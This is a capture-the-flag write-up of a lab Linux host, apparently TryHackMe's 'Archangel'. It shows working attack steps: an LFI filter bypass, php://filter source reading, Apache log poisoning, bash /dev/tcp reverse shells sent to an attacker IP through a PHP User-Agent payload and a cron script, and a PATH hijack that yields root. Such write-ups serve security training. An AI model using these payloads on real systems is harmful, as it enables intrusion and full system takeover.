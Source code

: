 ## Target IP: `10.10.150.235`

---

### Environment Setup

```bash
export IP=10.10.150.235
export LIP=10.6.24.56
```

---

### Initial Scans

```bash
sudo nmap -sC -sV -T4 -O $IP -oN nmap_scan.txt
nikto -h http://$IP
gobuster dir -u http://$IP -w /usr/share/wordlists/dirb/common.txt -x php
```

**Open Ports:**

| Port | Service |
| --- | --- |
| 22 | SSH (OpenSSH 7.6p1 Ubuntu 4ubuntu0.3) |
| 80 | HTTP (Apache/2.4.29) |

---

### Web Enumeration

Homepage branded as “Wavefire.” Filler text. Source code gives nothing.

**Discovered Directories:**

- `/flags` → Just a Rickroll.
- `/images`
- `/layout`
- `/pages`

Noticed a contact link:

```
support@mafialive.thm
```

Added domain to `/etc/hosts`:

```bash
echo "10.10.150.235 mafialive.thm" >> /etc/hosts
```

Visited `http://mafialive.thm` — saw first flag:

```
UNDER DEVELOPMENT
thm{[REDACTED]}
```

---

### Deeper Enumeration

Gobuster revealed:

- `/robots.txt`
- `/test.php`

**`/test.php`:** Displays a generic message and a button. Clicking it: *“control is an illusion”*

Suspicious `view` parameter in the URL:

```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php
```

Tested for LFI:

```bash
?view=../../../../../../../etc/passwd
```

Returned: “Sorry, that’s not allowed”

---

### Confirming LFI (Local File Inclusion)

`robots.txt` worked when passed to `view` param:

```
?view=/var/www/html/development_testing/robots.txt
```

Confirmed LFI — but restricted to a specific directory.

Tried reading `test.php`:

```bash
?view=/var/www/html/development_testing/test.php
```

No output — makes sense, PHP is executed not rendered.

---

### Reading Source Code via PHP Filters

Used `php://filter` trick to base64-encode the PHP file:

```bash
?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```

Decoded result showed this:

```php
function containsStr($str, $substr) {
    return strpos($str, $substr) !== false;
}

if (isset($_GET["view"])) {
    if (
        !containsStr($_GET['view'], '../..') &&
         containsStr($_GET['view'], '/var/www/html/development_testing')
    ) {
        include $_GET['view'];
    } else {
        echo 'Sorry, Thats not allowed';
    }
}
```

So two things must happen:

- Blocked if input contains `../..`
- Must include `/var/www/html/development_testing`

---

### Bypassing LFI Filter

Linux accepts `..//` as `../`, so the filter can be dodged:

```bash
?view=/var/www/html/development_testing/..//..//..//..//etc/passwd
```

Success. Read `/etc/passwd`.

---

### LFI to RCE via Log Poisoning

Targeted Apache’s access logs:

```
/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
```

Injected PHP payload via BurpSuite in **User-Agent**:

```php
<?php echo 'PWNED'; ?>
```

Then included the log file:

```bash
?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
```

Saw “PWNED” — confirmed code execution.

---

### Reverse Shell Payload

Started listener:

```bash
nc -lvnp 4444
```

Used clean payload in User-Agent:

```php
<?php system('/bin/bash -c "bash -i >& /dev/tcp/10.6.24.56/4444 0>&1"'); ?>
```

Triggered log inclusion again:

```bash
?view=/var/www/html/development_testing/..//..//..//..//var/log/apache2/access.log
```

**Shell popped.**

Navigated to `/home/archangel`, grabbed:

```
user.txt
thm{[REDACTED]}
```

Found `/secret`, but no permissions.

---

### Horizontal Privilege Escalation – Cronjob Abuse

No `sudo` access. No SUID binaries.

Searched for files owned by `archangel`:

```bash
find / -user archangel -type f 2>/dev/null | grep -v /proc
```

Found `/home/archangel/helloworld.sh` — observed it being modified every minute. A cronjob.

Injected shell:

```bash
echo "sh -i >& /dev/tcp/10.6.24.56/7777 0>&1" >> helloworld.sh
nc -lvnp 7777
```

Waited — shell received as user `archangel`.

Read `/home/archangel/secret/user2.txt`

```
thm{[REDACTED]}
```

---

### Vertical Privilege Escalation – PATH Variable Hijack

Found an executable backup script in `/home/archangel/secret/`

```bash
ls -la backup
```

Owned by root, world-executable.

`strings backup`, found this:

```
cp /home/user/archangel/myfiles/* /opt/backupfiles
```

Hijacked `cp` by placing a malicious one in PATH:

```bash
cd /tmp
echo '/bin/bash -p' > cp
chmod 777 cp
export PATH=$PWD:$PATH
```

Explanation: `-p` flag preserves privileges, so bash runs as root.

Executed the vulnerable script:

```bash
cd ~/secret
./backup
```

Root shell spawned.

Grabbed final flag:

```
thm{[REDACTED]}
```
